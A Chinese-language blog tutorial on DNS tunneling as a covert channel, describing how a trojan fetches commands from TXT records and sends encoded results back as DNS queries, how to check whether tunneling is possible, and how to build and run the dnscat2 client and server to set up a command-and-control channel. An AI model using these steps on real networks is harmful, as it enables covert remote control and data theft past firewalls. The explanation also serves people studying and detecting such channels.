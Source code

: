 ```yaml
---
categories: null
date: "2018-12-18T00:00:00Z"
description: DNS Tunneling，是隐蔽信道的一种，通过将其他协议封装在DNS协议中传输建立通信。因为在我们的网络世界中DNS是一个必不可少的服务，所以大部分防火墙和入侵检测设备很少会过滤DNS流量，这就给DNS作为一种隐蔽信道提供了条件，从而可以利用它实现诸如远程控制，文件传输等操作，现在越来越多的研究证明DNS
  Tunneling也经常在僵尸网络和APT攻击中扮演着重要的角色。
title: Intranet Space - Dns Tunneling
url: /archivers/2018-12-18/6
---
```


## 0x00 DNS隧道简介


DNS Tunneling，是隐蔽信道的一种，通过将其他协议的数据封装在DNS协议中传输建立通信。

普通的 DNS 查询过程如下:

客户端发送 DNS 请求->DNS 服务器->如果 DNS 服务器寻找不到该记录->继续递归查询->寻找该域名 的 NS 记录->询问 NS 记录指向的 DNS 服务器->DNS 服务器响应->传输给客户端。


本次通过设置一个 NS 服务器，实现了 DNS 隧道的建立，使得服务器可向客户端发送任意命令，并且回 传命令执行的结果。
DNS 隧道是隐蔽的、可加密的数据传输隧道，基于 UDP 协议，目的端口号为 53。

它的缺点就是不稳定、 传输过大文件时容易失去连接，需要重新建立。


## 0x01 DNS隧道原理

DNS 隧道简单例子:

| 类型 | 主机记录 | 记录值 | 
| - | :-: | -: | 
| NS | HACK | NS.XXX.COM | 
| A | NS | XXX.XXX.XXX.XXX | 


首先在 DNS 解析管理平台上设置一个 NS 和一个 A 记录:


当我们询问 hello.HACK.XXX.COM 时，DNS 客户端发送的查询请求会递归到主机记录 NS 指向的 XXX.XXX.XXX.XXX 服务器上。
黑客通过在 XXX.XXX.XXX.XXX 服务器上监听 53 端口，即可获得 DNS 客户端发送来的请求。

## 0x02 如何获得命令执行结果?

这里需要木马的配合，黑客会在服务器端的程序上专门设置一个 TXT 的主机记录，用于存放命令。 

木马会不断请求 COMMAND.HACK.XXX.COM，获得 TXT 的解析结果，并执行，然后将结果进行分段加密传送至 DNS 服务器，构造一个 A 记录的查询请求。

例如服务端:`set command=ipcofig`

客户端:请求 `COMMAND.HACK.XXX.COM`，得到解析结果ipconfig

操作系统执行后，返回结果一般如下:

```
WINDOWS IP Configuration:
......
```

此时木马将 WINDOWS IP Configuration 进行编码加密，可能是如下形式:

```
U2FsdGVkX19cMV2s858WNyKHm5mRXx4VXng1nK8bFG5XKQSaO52vXKIsX0IZ1pxyCdI
```

然后拼接成域名为:

```
U2FsdGVkX19cMV2s858WNyKHm5mRXx4VXng1nK8bFG5XKQSaO52vXKIsX0IZ1pxyCdI.H ACK.XXX.COM
```

服务端接收后，会使用密钥解密这串字符，得到命令执行结果。

这样反复的过程就能达到永久控制客户端的目的。


## 0x03 如何判断是否能够建立隧道?

使用 nslookup 工具查询 DNS 解析记录。

命令:

* `nslookup @114.114.114.114 baidu.com`
* `nslookup @8.8.8.8 baidu.com`
* `nslookup @内网DNS Server baidu.com`

如果均能查询到 A 记录后，再换一些不常见域名，例如:translate.google.cn 

若还是能够解析，则可以构建 DNS 隧道。

## 0x04 dnscat2

This tool is designed to create an encrypted command-and-control (C&C) channel over the DNS protocol, which is an effective tunnel out of almost every network.

> **dnscat2分为客户端和服务端**

客户端配置：

```
$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/client/
$ make
$ dnscat <Domain>
```

服务端配置（需要Ruby环境）：

```
$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/server/
$ gem install bundler
$ bundle install
$ ./dnscat2 --dns server=x.x.x.x,port=53
```
这一切的前提是按照0x01中的环境配置好后再操作。

DNS配置：

| 类型 | 主机记录 | 记录值 | 
| - | :-: | -: | 
| NS | dns | ns.payloads.online | 
| A | ns | 1.1.1.1 | 

```
# 服务器(1.1.1.1)
root@payloads:~# tcpdump udp port 53
```

```
# 客户端
nslookup hello.dns.payloads.online
```

